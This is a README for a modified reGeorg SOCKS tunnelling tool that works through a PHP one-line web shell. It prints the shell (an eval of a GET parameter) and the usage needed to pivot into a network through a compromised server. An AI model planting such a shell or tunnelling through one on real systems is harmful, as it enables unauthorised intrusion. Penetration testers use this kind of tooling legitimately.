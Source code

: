 reGeorg for PHP One-line Shell
=========

```                    _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg
```
willem@sensepost.com / [@\_w\_m\_\_]

sam@sensepost.com / [@trowalts]

etienne@sensepost.com / [@kamp_staaldraad]

github@zsxsoft.com / [@zsxsoft]


What's this?
----
A modified reGeorg for One-line PHP Shell like this:
```php
<?php eval($_GET['a']); ?>
```


Version
----

1.0

Dependencies
-----------

reGeorg requires Python 2.7 and the following modules:

* [urllib3] - HTTP library with thread-safe connection pooling, file post, and more.
 

Usage
--------------

```
$ reGeorgSocksProxy.py [-h] [-l] [-p] [-r] -u -k [-v] 

Socks server for reGeorg HTTP(s) tunneller

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -k , --key           The GET paramter
  -v , --verbose       Verbose output[INFO|DEBUG]

Example
---------
$ python reGeorgSocksProxy.py -p 8080 -u http://127.0.0.1/shell.php -k a
```

License
----

MIT


[@\_w\_m\_\_]:http://twitter.com/_w_m__
[@trowalts]:http://twitter.com/trowalts
[@kamp_staaldraad]:http://twitter.com/kamp_staaldraad
[urllib3]:https://pypi.python.org/pypi/urllib3
[proxychains]:http://sourceforge.net/projects/proxychains/
